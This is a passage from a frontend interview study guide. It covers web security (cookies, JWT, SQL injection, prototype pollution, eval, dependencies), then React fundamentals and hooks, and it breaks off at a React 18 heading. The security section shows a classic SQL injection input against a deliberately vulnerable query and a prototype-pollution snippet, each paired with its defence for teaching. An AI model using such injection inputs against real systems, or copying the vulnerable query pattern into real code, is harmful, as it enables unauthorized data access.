  Max-Age=3600
```

**Why HttpOnly matters:** If an XSS attack succeeds, the attacker's script **cannot read HttpOnly cookies** — so they can't steal the session token.

### 23.6 JWT (JSON Web Tokens)

**Structure:** `header.payload.signature` (Base64URL encoded)

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VySWQiOjEsImV4cCI6MTcwMDAwMH0.AbCdEf...
    Header                   Payload                         Signature
```

```js
// Payload — readable (NOT encrypted, just encoded)
{ userId: 1, role: 'admin', exp: 1700000000 }

// Never store sensitive data in JWT payload!
// Anyone can decode it: atob(token.split('.')[1])

// The SIGNATURE only proves the token wasn't tampered with
// (the server verifies it with its secret/public key).

// Storage debate:
// localStorage  — accessible by JS, XSS risk
// httpOnly cookie — safer, but needs CSRF protection
// Recommendation: httpOnly + Secure + SameSite=Strict cookie
```

**Common patterns:** short-lived access token (5–15 min) + long-lived refresh token (HttpOnly cookie, rotated). JWTs are **stateless**, so revoking them before expiry needs a denylist or short expiry. Next.js implementation: [34.8 Authentication](#348-authentication-pattern-in-nextjs).

### 23.7 SQL Injection (Awareness for API Routes)

```js
// ❌ Vulnerable — user input directly in query
const query = `SELECT * FROM users WHERE email = '${userEmail}'`;
// If email = "' OR '1'='1" → dumps all users

// ✅ Safe — parameterized queries
const safeQuery = 'SELECT * FROM users WHERE email = $1';
db.query(safeQuery, [userEmail]);
```

Even as a frontend dev, when writing Next.js API routes, Server Actions, or serverless functions, always use parameterized queries or an ORM.

### 23.8 Prototype Pollution

An attacker sets keys like `__proto__` through user-controlled input (e.g. a deep-merge of JSON), modifying `Object.prototype` for the whole app.

```js
// Dangerous — attacker controls key
const key = "__proto__";
obj[key]["isAdmin"] = true; // pollutes Object.prototype!
({}).isAdmin; // true — every object is now "admin"

// Safe check
if (key === "__proto__" || key === "constructor") return;
// Or use: Object.create(null) for data storage

// Safe setter
function safeSet(obj, key, value) {
  if (key === "__proto__" || key === "constructor" || key === "prototype") {
    throw new Error("Prototype pollution attempt");
  }
  obj[key] = value;
}

// Or use Map instead of plain object for user data
const data = new Map();
data.set("__proto__", "safe"); // completely fine in Map
```

Other defenses: `Object.freeze(Object.prototype)`, schema validation of input, keeping deep-merge libraries updated.

### 23.9 eval() and new Function() Risks

```js
eval(userInput);           // ❌ arbitrary code execution
new Function(userInput)(); // ❌ same risk
setTimeout("code string"); // ❌ string form is also eval

// Alternatives: JSON.parse for data, template literals for templates
```

`eval` is also slow (prevents V8 optimizations) and is blocked by a strict CSP.

### 23.10 Dependency Security

```bash
# Check for known vulnerabilities
npm audit
npm audit fix

# Lock dependencies to exact versions in production
npm ci  # uses package-lock.json exactly

# Keep dependencies updated
npm outdated
```

Also: commit lockfiles, use Dependabot/Renovate, review new packages (typosquatting), use Subresource Integrity (`integrity="sha384-..."`) for CDN scripts.

### 23.11 Input Validation

```js
// Frontend validation (UX, not security)
if (!email.includes('@')) showError('Invalid email');

// Backend validation (always required — frontend can be bypassed)
import Joi from 'joi';
const schema = Joi.object({
  email: Joi.string().email().required(),
  age: Joi.number().min(0).max(120).required(),
  name: Joi.string().max(100).pattern(/^[a-zA-Z\s]+$/).required(),
});

const { error } = schema.validate(req.body);
if (error) return res.status(400).json({ error: error.details[0].message });
```

> Zod is a popular TypeScript-first alternative that can share one schema between client and server.

### 23.12 Security Checklist

| Threat | Defense |
|---|---|
| XSS | Escape output, avoid `innerHTML`/`dangerouslySetInnerHTML`, DOMPurify, CSP, HttpOnly cookies |
| CSRF | `SameSite` cookies, CSRF tokens, Origin/Referer checks, no state change via GET |
| Token theft | HttpOnly + Secure + SameSite cookies, short-lived JWTs |
| Man-in-the-middle | HTTPS everywhere, HSTS |
| Clickjacking | `X-Frame-Options: DENY` / CSP `frame-ancestors` |
| Injection (SQL/NoSQL) | Parameterized queries, ORM, input validation |
| Prototype pollution | Key checks, `Object.create(null)`, `Map` |
| Code injection | Never `eval` user input |
| Vulnerable packages | `npm audit`, `npm ci`, lockfiles, updates |

---

# Part III — React

---

## 24. React Fundamentals

### 24.1 What is React and Why Use It Over Vanilla JS?

React is a **JavaScript library** (not a framework) developed by Meta for building user interfaces using a **component-based architecture**.

**Why React over Vanilla JS:**
- **Virtual DOM** — React batches and minimizes real DOM updates, improving performance
- **Reusable Components** — Build once, use anywhere
- **Declarative UI** — Describe *what* the UI looks like for a given state; React figures out *how* to update the DOM
- **One-way data flow** — data flows down via props, which makes apps predictable
- **Ecosystem** — Rich tooling, libraries, and community (Next.js, React Native, React Query…)

> **Library vs framework:** React handles only the view layer. Routing, data fetching and state management are separate choices (or provided by a framework like Next.js).

### 24.2 What is JSX?

JSX (JavaScript XML) lets you write HTML-like syntax inside JavaScript. It is **not valid JS** — it gets compiled by **Babel** (or SWC/esbuild) into `React.createElement()` calls (or `jsx()` calls with the new JSX transform from React 17, which is why you no longer need `import React` in every file).

```jsx
// JSX
const element = <h1>Hello, World</h1>;

// What Babel compiles it to:
const element = React.createElement('h1', null, 'Hello, World');
```

JSX rules: one root element (or Fragment), `className` instead of `class`, `htmlFor` instead of `for`, camelCase event handlers (`onClick`), `{}` for JS expressions, all tags must close.

### 24.3 What is the Virtual DOM?

The Virtual DOM (VDOM) is a **lightweight, in-memory JavaScript representation** of the real DOM. When state changes:

1. React creates a new Virtual DOM tree (by re-running the component functions)
2. It **diffs** (compares) it with the previous VDOM (**reconciliation**)
3. Only the changed parts are updated in the **real DOM** (patching / commit)

This avoids expensive full-page re-renders and manual DOM manipulation.



> **Interview nuance:** The VDOM is not "faster than the DOM" by itself — it's a way to make declarative UI **fast enough** by batching and minimizing real DOM writes.

### 24.4 What is Reconciliation? (React's Diffing Algorithm)

Reconciliation is the process React uses to **compare the new Virtual DOM with the previous one** and determine the **minimum set of DOM operations** needed. A generic tree diff is O(n³); React uses **heuristics** to make it O(n):

**Rules:**
- **Compare nodes by type first.** Two elements of different types (e.g. `<div>` → `<span>`, or `ComponentA` → `ComponentB`) → destroy and rebuild the entire subtree (state is lost).
- **Same type** → keep the DOM node / component instance and update only changed attributes/props.
- **Lists** → use the `key` prop to match old and new children.
- Children are compared **position by position** unless keys are present.



```jsx
// Without key — React matches by position, may re-render/mismatch all items on change
{items.map(item => <li>{item.name}</li>)}

// With key — React knows exactly which item changed
{items.map(item => <li key={item.id}>{item.name}</li>)}
```

The engine that performs reconciliation is **React Fiber** ([26.1](#261-react-fiber-the-rendering-engine)).

### 24.5 State vs Props

| Feature | State | Props |
|---|---|---|
| Managed by | Component itself | Parent component |
| Mutable? | Yes (via `setState`/`useState` setter — never mutate directly) | No (read-only) |
| Triggers re-render? | Yes | Yes (when changed by parent) |
| Purpose | Data that changes over time inside the component | Configuration passed from parent |

```jsx
// Props — passed from parent
function Child({ name }) {
  return <p>Hello, {name}</p>;
}

// State — managed inside component
function Counter() {
  const [count, setCount] = useState(0);
  return <button onClick={() => setCount(count + 1)}>{count}</button>;
}
```

### 24.6 Class vs Functional Components

| Feature | Class Component | Functional Component |
|---|---|---|
| Syntax | `class MyComp extends React.Component` | `function MyComp()` |
| State | `this.state` / `this.setState` | `useState` hook |
| Lifecycle | Lifecycle methods | `useEffect` hook |
| `this` | Needed (binding issues) | Not needed |
| Logic reuse | HOCs, render props | Custom hooks |
| Performance | Slightly heavier | Lighter, preferred today |

Functional components are the **modern standard**. Class components are legacy but still appear in older codebases (and are still required for Error Boundaries).

### 24.7 Component Lifecycle

```
Mount  →  Update  →  Unmount
```

| Phase | Class Method | Description | Hook equivalent |
|---|---|---|---|
| Mount | `constructor` → `render` → `componentDidMount()` | Runs after component is inserted into DOM | `useEffect(fn, [])` |
| Update | `render` → `componentDidUpdate(prevProps, prevState)` | Runs after props/state change triggers re-render | `useEffect(fn, [deps])` |
| Update (skip) | `shouldComponentUpdate()` | Return `false` to skip re-render | `React.memo` |
| Unmount | `componentWillUnmount()` | Runs before component is removed from DOM | cleanup returned from `useEffect` |
| Error | `componentDidCatch()` / `getDerivedStateFromError()` | Catch child errors | No hook equivalent |

**Functional equivalent with hooks:**
```jsx
useEffect(() => {
  // componentDidMount
  return () => {
    // componentWillUnmount
  };
}, []); // [] = run once on mount
```



### 24.8 Keys in Lists

Keys are **unique, stable identifiers** that help React track which list items changed, were added, or removed during reconciliation.

```jsx
{items.map(item => (
  <li key={item.id}>{item.name}</li>  // ✅ Use stable unique IDs
))}

// ❌ Avoid using array index as key (causes bugs on reorder/delete/insert)
{items.map((item, index) => <li key={index}>{item.name}</li>)}
{users.map((user, index) => <User key={index} user={user} />)}

// ✅ Using stable unique ID
{users.map(user => <User key={user.id} user={user} />)}
```

**Why index keys cause bugs:** If the item at index 0 is deleted, every remaining item shifts down one index. React thinks item 0 just *changed* (not deleted) → the wrong component instance gets updated → internal state (like input text or checkbox state) shows up on the wrong row.

**Rules:** keys must be unique **among siblings** (not globally), stable across renders, and not generated during render (`Math.random()` remounts every time). Index keys are OK only for static lists that never reorder.

Keys can also be used to **reset** a component on purpose — see [26.10](#2610-key-trick-for-resetting-state).

### 24.9 Controlled vs Uncontrolled Components

**Controlled** — React state is the single source of truth for the input value.
**Uncontrolled** — The DOM itself holds the value; you read it via a `ref`.

```jsx
// Controlled — state drives the value (React is in control)
const [name, setName] = useState('');
<input value={name} onChange={e => setName(e.target.value)} />

// Uncontrolled — DOM drives the value (ref to read on submit)
const inputRef = useRef();
<input ref={inputRef} defaultValue="Hello" />
// Access value: inputRef.current.value on form submit
```

| | Controlled | Uncontrolled |
|---|---|---|
| Source of truth | React state | DOM |
| Re-render on every keystroke | Yes | No |
| Instant validation / formatting | Easy | Harder |
| Initial value prop | `value` | `defaultValue` |
| Best for | Dynamic forms, validation as you type | Large forms read only on submit, file inputs, integrating non-React libs |

> **When to use uncontrolled:** Large forms where you only need the value on submit (avoids re-render on every keystroke). Libraries like React Hook Form use this approach for performance.
>
> **Trap:** Switching an input from `value={undefined}` to a defined value triggers the "changing an uncontrolled input to be controlled" warning — initialize with `''`.

### 24.10 Passing Data: Parent ↔ Child, Lifting State Up, Prop Drilling

```jsx
// Parent → Child: via props
<Child message="Hello" />

// Child → Parent: via callback function passed as prop
function Parent() {
  const [msg, setMsg] = useState('');
  return <Child onSend={setMsg} />;
}

function Child({ onSend }) {
  return <button onClick={() => onSend('Hi Parent!')}>Send</button>;
}
```

**Lifting State Up:** When multiple sibling components need to share state, **move the state to their closest common parent** and pass it down via props.

```jsx
function Parent() {
  const [value, setValue] = useState('');
  return (
    <>
      <InputChild onChange={setValue} />
      <DisplayChild value={value} />
    </>
  );
}
```

**Prop drilling** = passing props through many intermediate components that don't need them. Solutions (detailed in [28.2](#282-prop-drilling-and-how-to-avoid-it)):
- **Component composition** — pass components as `children` to avoid depth
- **Context API** — built-in way to share values
- **Redux / Zustand** — external state libraries

### 24.11 Fragments

Fragments let you return multiple elements **without adding extra DOM nodes** (keeping the DOM lean — see [20.6](#206-reduce-dom-size)).

```jsx
// Short syntax (preferred)
return (
  <>
    <h1>Title</h1>
    <p>Body</p>
  </>
);

// Full syntax (needed when you need to pass a key)
return (
  <React.Fragment key={id}>
    <dt>Term</dt>
    <dd>Definition</dd>
  </React.Fragment>
);
```

```jsx
// ❌ Extra wrapper div adds unnecessary node
function List() {
  return (
    <div>
      <Item />
      <Item />
    </div>
  );
}

// ✅ Use Fragment — renders no extra DOM node
function List() {
  return (
    <>
      <Item />
      <Item />
    </>
  );
}
```

Fragments also prevent invalid HTML (e.g. a `<div>` inside `<tr>` or `<ul>`).

### 24.12 React Portals

Portals render a child component **outside the parent component's DOM hierarchy**, while still being part of the React tree (context works, and events **bubble through the React tree**, not the DOM tree). Useful for modals, tooltips, dropdowns, and overlays that must escape `overflow: hidden` or `z-index` stacking.

```jsx
import ReactDOM from 'react-dom';

function Modal({ children }) {
  return ReactDOM.createPortal(
    <div className="modal">{children}</div>,
    document.getElementById('modal-root') // renders here in HTML
  );
}
```

### 24.13 Conditional Rendering

```jsx
// Ternary operator
{isLoggedIn ? <Dashboard /> : <Login />}

// Short-circuit (render or nothing)
{isAdmin && <AdminPanel />}

// Null to render nothing
if (!isVisible) return null;
```

### 24.14 null vs undefined vs false vs 0 in JSX

```jsx
{null}       // Renders nothing
{undefined}  // Renders nothing
{false}      // Renders nothing
{true}       // Renders nothing
{0}          // ⚠️ Renders "0" — common bug!
{NaN}        // ⚠️ Renders "NaN"

// Bug:
{count && <Badge count={count} />}      // shows "0" when count is 0

// Fix for 0 issue:
{count > 0 && <Badge count={count} />}  // Use explicit boolean
{!!count && <Badge count={count} />}    // Or double negation
```

### 24.15 Error Boundaries

Error boundaries catch JavaScript errors **during rendering, in lifecycle methods, and in constructors** of their **child component tree**, and display a fallback UI instead of crashing (unmounting) the whole app.

> ⚠️ Only available as **class components** (no hook equivalent yet). The `react-error-boundary` package provides a reusable wrapper.

```jsx
class ErrorBoundary extends React.Component {
  state = { hasError: false };

  // Render fallback on next render (recommended way to update state)
  static getDerivedStateFromError(error) {
    return { hasError: true };
  }

  // Side effects such as logging
  componentDidCatch(error, info) {
    console.error(error, info); // send to Sentry, etc.
  }

  render() {
    if (this.state.hasError) return <h1>Something went wrong.</h1>;
    return this.props.children;
  }
}

// Usage
<ErrorBoundary>
  <MyComponent />
</ErrorBoundary>
```

**Error boundaries do NOT catch:** errors in event handlers (use `try/catch`), async code (`setTimeout`, promises), server-side rendering errors, or errors in the boundary itself. In the Next.js App Router, `error.js` files create error boundaries per route segment ([34.3](#343-app-router-file-conventions-and-layouts)).

### 24.16 Forms in React

```jsx
function Form() {
  const [form, setForm] = useState({ name: '', email: '' });

  const handleChange = e => {
    setForm({ ...form, [e.target.name]: e.target.value }); // computed property name
  };

  const handleSubmit = e => {
    e.preventDefault(); // prevent page reload
    console.log(form);
    setForm({ name: '', email: '' }); // clear after submit
  };

  return (
    <form onSubmit={handleSubmit}>
      <input name="name" value={form.name} onChange={handleChange} />
      <input name="email" value={form.email} onChange={handleChange} />
      <button type="submit">Submit</button>
    </form>
  );
}
```

> For big forms, consider uncontrolled inputs or React Hook Form + Zod/Yup validation.

### 24.17 Synthetic Events

React wraps native browser events in **SyntheticEvent** objects for cross-browser consistency. The API matches native events (`e.target`, `e.preventDefault()`, `e.stopPropagation()`), and the original is available as `e.nativeEvent`.

- **Event pooling** (reusing event objects, which made `e.target` null in async code) **was removed in React 17** — you can now safely use the event asynchronously.
- React attaches listeners at the **root container** (event delegation), not on each element.
- `onChange` in React fires on every keystroke (like native `input`), not on blur.

### 24.18 defaultProps and propTypes

```jsx
import PropTypes from 'prop-types';

function Button({ label, color }) {
  return <button style={{ background: color }}>{label}</button>;
}

Button.defaultProps = { color: 'blue' };
Button.propTypes = {
  label: PropTypes.string.isRequired,
  color: PropTypes.string,
};

// ✅ Modern alternative for function components: default parameter values
function Button2({ label, color = 'blue' }) { /* ... */ }
```

> In TypeScript projects, use **TypeScript interfaces/types** instead of propTypes ([30](#30-typescript-with-react)). `defaultProps` on function components is deprecated (removed in React 19) — use default parameters. PropTypes checks are also dropped in React 19.

---

## 25. React Hooks

**Simple definition:** Hooks are functions that let functional components "hook into" React features — state, lifecycle/effects, context, refs.

### 25.1 Rules of Hooks

1. Only call hooks at the **top level** (not inside loops, conditions, or nested functions).
2. Only call hooks from **React function components** or **custom hooks**.
3. Hooks do **NOT** work in class components.

**Why:** React identifies each hook by its **call order** on every render (stored as a linked list on the component's Fiber). If a hook is skipped conditionally, every hook after it would read the wrong state. The `eslint-plugin-react-hooks` plugin enforces these rules.

### 25.2 useState

Adds state to functional components.

```jsx
const [count, setCount] = useState(0);

// Functional update (safe when new state depends on old state)
setCount(prev => prev + 1);

// Object state — spread to avoid losing other fields (no auto-merge like class setState)
const [user, setUser] = useState({ name: '', age: 0 });
setUser(prev => ({ ...prev, name: 'John' }));

// Lazy initial state — the function runs only on the first render
const [data, setData] = useState(() => expensiveInitialValue());
```

**How it works / traps:**
- State updates are **asynchronous and batched** — `count` doesn't change until the next render.
  ```jsx
  setCount(count + 1);
  setCount(count + 1); // still uses the same old `count` → +1 total, not +2
  setCount(c => c + 1);
  setCount(c => c + 1); // functional updates → +2
  ```
- Setting the same value (checked with `Object.is`) skips the re-render.
- **Never mutate** state (`arr.push(x); setArr(arr)` won't re-render — same reference). Create a new array/object.

### 25.3 useEffect

Handles **side effects**: data fetching, subscriptions, DOM manipulation, timers, logging. Runs **after the browser paints**.

```jsx
useEffect(() => {
  // Side effect code here

  return () => {
    // Cleanup (runs on unmount or before next effect)
  };
}, [dependency]); // Dependency array controls when effect runs
```

**Dependency array rules:**
- `[]` — runs **once** on mount (like componentDidMount)
- `[value]` — runs on mount and whenever `value` changes (compared with `Object.is`)
- *(no array)* — runs on **every render**

**Traps:** missing dependencies → stale closures ([26.8](#268-stale-closures-in-useeffect)); objects/arrays/functions in deps → runs every render ([26.9](#269-objects-and-arrays-in-the-dependency-array)); runs twice in development under Strict Mode ([26.7](#267-why-does-useeffect-run-twice-in-development)); and many effects aren't needed at all ([29.8](#298-avoid-unnecessary-useeffect)).

### 25.4 Cleaning Up Effects

```jsx
useEffect(() => {
  // Setup
  const id = setInterval(() => setCount(c => c + 1), 1000);

  // Cleanup — runs on unmount or before next effect
  return () => clearInterval(id);
}, []);

// Cancelling fetch with AbortController
useEffect(() => {
  const controller = new AbortController();
  fetch(url, { signal: controller.signal })
    .then(res => res.json())
    .then(setData)
    .catch(err => { if (err.name !== 'AbortError') setError(err); });
  return () => controller.abort();
}, [url]);
```

Cleanup also prevents **race conditions**: if `url` changes quickly, the old request is aborted so its late response can't overwrite newer data.

### 25.5 useRef

`useRef` returns a mutable object `{ current: value }` that **persists across renders** and **does not trigger a re-render** when changed.

Two main use cases:

```jsx
// 1. DOM access
const inputRef = useRef(null);

// Focus on mount
useEffect(() => {
  inputRef.current.focus();
}, []);

return <input ref={inputRef} />;

// 2. Mutable value that persists without re-render (e.g. store timer ID)
const timerRef = useRef(null);
timerRef.current = setInterval(() => console.log('tick'), 1000);
// Later: clearInterval(timerRef.current);

// Store a value that shouldn't trigger re-render
const renderCount = useRef(0);
renderCount.current += 1; // No re-render!

// Remember the previous value
function usePrevious(value) {
  const ref = useRef();
  useEffect(() => { ref.current = value; }, [value]);
  return ref.current;
}
```

| | `useState` | `useRef` |
|---|---|---|
| Triggers re-render on change | ✅ | ❌ |
| Value persists across renders | ✅ | ✅ |
| Update visible | Next render | Immediately (`ref.current`) |
| Use for | Data shown in UI | DOM nodes, timer IDs, previous values, instance variables |

> **Trap:** Don't read/write `ref.current` during rendering for values that affect output — the UI won't update.

### 25.6 useMemo

Memoizes an **expensive computed value** so it's only recalculated when dependencies change.

```jsx
const expensiveResult = useMemo(() => {
  return computeHeavyCalculation(data);
}, [data]); // Only recalculates when `data` changes

// Sorting — copy first! .sort() mutates the original (props/state)
const sortedList = useMemo(() => {
  return [...items].sort((a, b) => a.price - b.price);
}, [items]);
```

> Use when a computation is slow — don't use for everything, as memoization itself has overhead (memory + dependency comparison). Also use it to keep an object/array **referentially stable** when passed to a memoized child or used as an effect dependency.

### 25.7 useCallback

Memoizes a **function** so it isn't recreated on every render. Useful when passing callbacks to memoized child components or using functions as effect dependencies.

```jsx
const handleClick = useCallback(() => {
  doSomething(value);
}, [value]); // Only recreates when `value` changes
```

> Without `useCallback`, a new function reference is created every render → breaks `React.memo` on the child.
>
> `useCallback(fn, deps)` is equivalent to `useMemo(() => fn, deps)`.

### 25.8 useMemo vs useCallback

| Hook | Caches | Use When |
|------|--------|----------|
| `useMemo` | **Value/result** of a function | Expensive calculations, stable object/array references |
| `useCallback` | **The function itself** | Passing callbacks to memoized child components |

```jsx
// useMemo — caches computed value
const sorted = useMemo(() => [...items].sort(byPrice), [items]);

// useCallback — caches the function reference
const handleClick = useCallback(() => {
  console.log("clicked", id);
}, [id]); // New function only if `id` changes

// Without useCallback, handleClick gets a new reference on every render
// → causes child component (even React.memo'd) to re-render
```

> **One-liner:** `useMemo` = cached **value**, `useCallback` = cached **function**. Both are only useful when the result is compared by reference somewhere (memoized child or dependency array) or the computation is truly expensive. The React Compiler (React 19 era) can add this memoization automatically.

### 25.9 useReducer

Alternative to `useState` for **complex state logic** with multiple sub-values or when the next state depends on the previous one through many different actions.

```jsx
const initialState = { count: 0 };

function reducer(state, action) {
  switch (action.type) {
    case 'increment': return { count: state.count + 1 };
    case 'decrement': return { count: state.count - 1 };
    case 'reset':     return initialState;
    default: return state;
  }
}

function Counter() {
  const [state, dispatch] = useReducer(reducer, initialState);

  return (
    <>
      <p>{state.count}</p>
      <button onClick={() => dispatch({ type: 'increment' })}>+</button>
      <button onClick={() => dispatch({ type: 'decrement' })}>-</button>
    </>
  );
}
```

| useState | useReducer |
|---|---|
| Simple values | Complex state logic |
| Direct setter | Dispatch + reducer |
| Good for: counters, booleans | Good for: forms, carts, multi-step flows |
| Logic inside handlers | Logic centralized in a pure, testable reducer |

`dispatch` is stable (never changes), so it's safe to pass down without `useCallback`. Typed version: [30.5](#305-typing-usereducer).

### 25.10 useContext

Reads a value from a Context without prop drilling.

```jsx
// 1. Create context
const ThemeContext = React.createContext('light');

// 2. Provide at the top level
function App() {
  return (
    <ThemeContext.Provider value="dark">
      <Page />
    </ThemeContext.Provider>
  );
}

// 3. Consume anywhere in the tree
function Button() {
  const theme = useContext(ThemeContext);
  return <button className={theme}>Click me</button>;
}
```

> Every consumer re-renders when the Provider's `value` changes (by reference). See [28.4](#284-context-performance) for performance tips and [28.3](#283-context-api-full-pattern) for the full Provider + custom hook pattern.

### 25.11 useLayoutEffect

Like `useEffect`, but fires **synchronously after DOM mutations and before the browser paints**. Use for measuring DOM elements or synchronous DOM updates that must happen before the user sees the frame (prevents flicker).

```jsx
useLayoutEffect(() => {
  const height = divRef.current.getBoundingClientRect().height;
  setHeight(height); // Won't cause visible flicker
}, []);
```

| useEffect | useLayoutEffect |
|---|---|
| After paint (async) | Before paint (sync) |
| For API calls, subscriptions | For DOM measurements, tooltips positioning, scroll restoration |
| Non-blocking | Can block paint (use sparingly) |

> `useLayoutEffect` does nothing on the server (SSR warns). Use `useEffect` unless you see flicker.

### 25.12 useImperativeHandle + forwardRef

Lets a parent component call specific methods on a child component via a ref — exposing a **limited imperative API** instead of the raw DOM node.

```jsx
const FancyInput = React.forwardRef((props, ref) => {
  const inputRef = useRef();

  useImperativeHandle(ref, () => ({
    focus: () => inputRef.current.focus(),
    clear: () => (inputRef.current.value = ''),
  }));

  return <input ref={inputRef} />;
});

// In parent:
const ref = useRef();
<FancyInput ref={ref} />
<button onClick={() => ref.current.focus()}>Focus Input</button>
```

> `forwardRef` is needed because `ref` is not a normal prop in React ≤18. In React 19, `ref` can be passed as a regular prop to function components.

### 25.13 useDebounce: Debouncing with Hooks

```jsx
function useDebounce(value, delay = 500) {
  const [debounced, setDebounced] = useState(value);

  useEffect(() => {
    const handler = setTimeout(() => setDebounced(value), delay);
    return () => clearTimeout(handler); // Clear on value change
  }, [value, delay]);

  return debounced;
}

// Usage — only searches 500ms after user stops typing
const debouncedSearch = useDebounce(searchTerm, 500);
useEffect(() => { fetchResults(debouncedSearch); }, [debouncedSearch]);
```

### 25.14 Custom Hooks

Custom hooks are JavaScript functions that **start with `use`** and can call other hooks. They let you extract and reuse **stateful logic** (not state itself — each component calling the hook gets its own independent state).

```jsx
// Custom hook for data fetching
function useFetch(url) {
  const [data, setData] = useState(null);
  const [loading, setLoading] = useState(true);
  const [error, setError] = useState(null);

  useEffect(() => {
    setLoading(true);
    fetch(url)
      .then(res => res.json())
      .then(data => { setData(data); setLoading(false); })
      .catch(err => { setError(err); setLoading(false); });
  }, [url]);

  return { data, loading, error };
}

// Usage
const { data, loading } = useFetch('/api/users');
```

**Persisting state to localStorage:**

```jsx
function useLocalStorage(key, initialValue) {
  const [value, setValue] = useState(() => {
    const stored = localStorage.getItem(key);
    return stored ? JSON.parse(stored) : initialValue;
  });

  useEffect(() => {
    localStorage.setItem(key, JSON.stringify(value));
  }, [key, value]);

  return [value, setValue];
}
```

> **SSR trap (Next.js):** `localStorage` doesn't exist on the server. Guard with `typeof window !== 'undefined'` or read it inside `useEffect`, otherwise you'll get errors or hydration mismatches.

More custom hooks: `useDebounce` ([25.13](#2513-usedebounce-debouncing-with-hooks)), `usePrevious` ([25.5](#255-useref)), `useTheme` ([31.4](#314-dark-mode-toggle)), `useInfiniteScroll` ([31.3](#313-infinite-scroll-with-intersection-observer)).

### 25.15 Hook Summary Table

| Hook | Purpose |
|---|---|
| `useState` | Local state |
| `useEffect` | Side effects (fetch, subscriptions, DOM) — after paint |
| `useLayoutEffect` | Sync DOM measurements before paint |
| `useRef` | DOM access, mutable values without re-render |
| `useMemo` | Memoize computed value |
| `useCallback` | Memoize function |
| `useReducer` | Complex state with reducer pattern |
| `useContext` | Consume context without prop drilling |
| `useImperativeHandle` | Expose child methods to parent via ref |
| `useTransition` | Mark non-urgent state updates (React 18) |
| `useDeferredValue` | Defer re-rendering non-urgent values (React 18) |
| `useId` ➕ | Stable unique IDs that match between server and client (React 18) |

---

## 26. Advanced React Concepts

### 26.1 React Fiber: The Rendering Engine

**What it is:** A complete rewrite of React's core reconciliation algorithm (introduced in React 16). It breaks rendering work into **small units of work (fibers)** — one per component/element — that can be **paused, resumed, prioritized, or aborted**.

**Before Fiber (stack reconciler):** Rendering was synchronous, recursive, and couldn't be interrupted → a big update could block the main thread → UI could freeze.

**After Fiber:** Rendering is incremental → React can yield to the browser between units of work.

```
Old React:   [Render entire tree at once] → Browser blocked → Janky UI
React Fiber: [Render chunk] → [Yield to browser] → [Continue render] → Smooth UI
```

**Two phases:**
1. **Render phase** (interruptible) — call components, diff, build the "work-in-progress" tree. Must be pure.
2. **Commit phase** (synchronous, not interruptible) — apply DOM changes, run layout effects, then schedule passive effects (`useEffect`).

> 💡 Fiber is what enables **Concurrent Rendering**, `useTransition`, `useDeferredValue`, `Suspense`, and streaming SSR.

### 26.2 Concurrent Rendering (React 18)

